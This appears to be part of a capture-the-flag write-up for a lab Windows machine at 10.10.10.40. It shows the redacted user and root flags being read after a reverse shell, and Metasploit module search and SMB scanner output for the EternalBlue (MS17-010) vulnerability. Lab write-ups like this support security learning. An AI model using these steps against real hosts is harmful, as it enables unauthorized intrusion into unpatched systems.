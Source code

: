 ### Obtaining user flag
From the whoami command that we execute in the reverse shell, we realize that we have system privileges. This means that we can obtain the user flag without requiring any privilege escalation.

```
C:\Users\haris\Desktop>type user.txt
type user.txt
<Redacted user flag>
```

### Obtaining root flag

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
<Redacted root flag>
```

## Post-Exploitation
### CVE-2017-0143 with Metasploit
EternalBlue exploit can also be exploited using Metasploit. CVE-2017-0143 is also classified as MS17-010 in metasploit. To find the exploit on metasploit, we would need to use MS17-010 instead.

Firstly, let us search for metasploit modules that is related to EternalBlue

```
msf6 > search ms17-010
Matching Modules
================
   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

From the output above, 4 seems to be a scanner for EternalBlue exploit. Let us try to use option 4 to check for EternalBlue exploit in 10.10.10.40. From the output, it seems that 10.10.10.40 is likely to be vulnerable to EternalBlue exploit. Apart from that, we can also see that 10.10.10.40 is running on a 64 bit windows system.

```
msf6 > use 4
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
